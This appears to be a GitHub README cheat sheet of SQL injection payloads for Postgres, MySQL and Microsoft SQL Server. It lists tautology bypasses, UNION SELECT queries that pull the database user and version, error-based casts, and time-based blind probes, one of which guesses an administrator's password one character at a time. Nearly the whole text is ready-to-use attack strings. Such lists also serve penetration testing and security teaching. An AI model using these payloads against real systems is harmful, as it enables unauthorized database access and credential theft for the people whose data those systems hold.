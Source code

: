 # WebAppPayloadExamples
Brief example of various common web application vulnerability payloads. 
<h1>Injections</h1>
'||(SELECT%2bcase+when+substring(version(),1,1)%3d'5'+then+sleep(10)+else+sleep(0)+end+from+dual)||'
  <ul>
') OR 1=1 -- 

') OR ('a)'='a)

') OR 1=1 -- 

') UNION SELECT ALL @@version, system_user; -

') UNION SELECT user, 'b' --

<b>Postgress</b>

' OR 'a%'='a%

"' AND CAST(version() AS INT)=1 --"

'||(SELECT 'Shipping')||'

'||(SELECT version())||'

'||(SELECT user)||'

' UNION SELECT user, version() --

') UNION SELECT user, version() --

' UNION SELECT user, 'b' --

' UNION SELECT CAST(version() AS INT) --

Ste'||'ven

'||ver||'

'||(SELECT CASE WHEN SUBSTR(user, 1, 1) = 'n' THEN pg_sleep(10) ELSE pg_sleep(0) END)||'

||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator' AND SUBSTRING(Password, 1, 1) = 'a')--

'||(SELECT CASE WHEN SUBSTR(user, 1, 1) = 'n' THEN pg_sleep(10) ELSE pg_sleep(0) END)||

<b>mysql</b>
Integer
') UNION SELECT user, version() --

100) UNION SELECT …
100 OR 1=1 --
100) OR 1=1 --
100 UNION SELECT user, 'b' --



1 OR 1=1
1 OR 'a'='a' -- 
(SELECT 3+3)
(SELECT CASE WHEN 1=1 THEN 1 ELSE 6 END)
(SELECT CASE WHEN SUBSTRING(@@version, 1, 1)='M' THEN 1 ELSE 2 END)
[IF ERRORS RETURNED]: (SELECT CASE WHEN convert(int,(SELECT @@version))=1 THEN 1 ELSE 2 END)

Integer MySQL
(Select case when 1=1 then 1 else 6 END)
(SELECT CASE WHEN SUBSTRING(user(), 1, 1)='n' THEN 1 ELSE 9 END)-- -
(SELECT IF(SUBSTRING(@@version, 1, 1)='5',1,2))
't' OR (SELECT CASE WHEN substring(user() ,1,1)='n' THEN 1 ELSE 'error' END)
IF(SUBSTRING(@@version, 1, 1)='5',1,6)
(SELECT IF(1=1,1,2))
(SELECT IF(SUBSTRING(@@version, 1, 1)='5',1,2))

<b>Microsoft</b>
Microsoft SQL Displayed

'+(SELECT @@version)+'

Ship'+'ping

'+(SELECT 'Shipping')+'

'+(SELECT CURRENT_USER)+'

' OR 1=1 UNION SELECT USER, @@version --

INTEGER
100+OR++UNION+SELECT+user,+version()+--
(100)UNION+SELECT+@@version,user+--


Microsoft Blind

'+(SELECT CASE WHEN 1=1 THEN 'Shipping' ELSE 'NotADepartment' END)+'

'+(SELECT CASE WHEN SUBSTRING(@@version, 1, 1)='M' THEN 'Steven' ELSE 'notbob' END)+'

[IF ERRORS RETURNED]: '+(SELECT CASE WHEN convert(int,(SELECT @@version))=1 THEN 1 ELSE 2 END)+'

'+(SELECT CASE WHEN 1=1 THEN 'Steven" ELSE 'none' END)-- -

SELECT CAST((SELECT CURRENT_USER) AS int)

  </ul>
